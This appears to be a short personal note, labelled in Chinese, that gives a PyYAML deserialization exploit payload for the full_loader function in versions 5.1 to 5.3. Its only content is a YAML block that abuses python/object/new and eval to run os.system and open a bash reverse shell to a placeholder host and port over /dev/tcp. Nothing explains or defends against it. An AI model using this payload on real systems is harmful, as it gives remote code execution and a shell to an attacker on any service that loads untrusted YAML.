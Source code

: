 - # payload
	- 针对5.1 ~ 5.3版本的full_loader函数
		- ```yaml
		  !!python/object/new:str
		    args: []
		    state: !!python/tuple
		      - "__import__('os').system('bash -c \"bash -i >& /dev/tcp/ip/port <&1\"')"
		      - !!python/object/new:staticmethod
		        args: []
		        state:
		          update: !!python/name:eval
		          items: !!python/name:list
		  ```